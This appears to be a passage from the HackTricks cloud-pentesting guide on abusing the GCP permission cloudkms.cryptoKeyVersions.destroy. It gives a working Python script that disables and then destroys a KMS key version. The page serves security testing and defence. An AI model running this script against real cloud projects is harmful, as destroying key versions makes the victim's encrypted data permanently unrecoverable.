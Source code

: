 <details><summary>Support HackTricks</summary></details>
{% endhint %}

## KMS

Find basic information about KMS in:

{% content-ref url="../gcp-services/gcp-kms-enum.md" %}
[gcp-kms-enum.md](../gcp-services/gcp-kms-enum.md)
{% endcontent-ref %}

### `cloudkms.cryptoKeyVersions.destroy`

An attacker with this permission could destroy a KMS version. In order to do this you first need to disable the key and then destroy it:

```python
# pip install google-cloud-kms

from google.cloud import kms

def disable_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Disables a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to disable the key version.
    client.update_crypto_key_version(request={'crypto_key_version': {'name': key_version_name, 'state': kms.CryptoKeyVersion.State.DISABLED}})

def destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version):
    """
    Destroys a key version in Cloud KMS.
    """
    # Create the client.
    client = kms.KeyManagementServiceClient()

    # Build the key version name.
    key_version_name = client.crypto_key_version_path(project_id, location_id, key_ring_id, key_id, key_version)

    # Call the API to destroy the key version.
    client.destroy_crypto_key_version(request={'name': key_version_name})

# Example usage
project_id = 'your-project-id'
location_id = 'your-location'
key_ring_id = 'your-key-ring'
key_id = 'your-key-id'
key_version = '1'  # Version number to disable and destroy

# Disable the key version
disable_key_version(project_id, location_id, key_ring_id, key_id, key_version)

# Destroy the key version
destroy_key_version(project_id, location_id, key_ring_id, key_id, key_version)
```

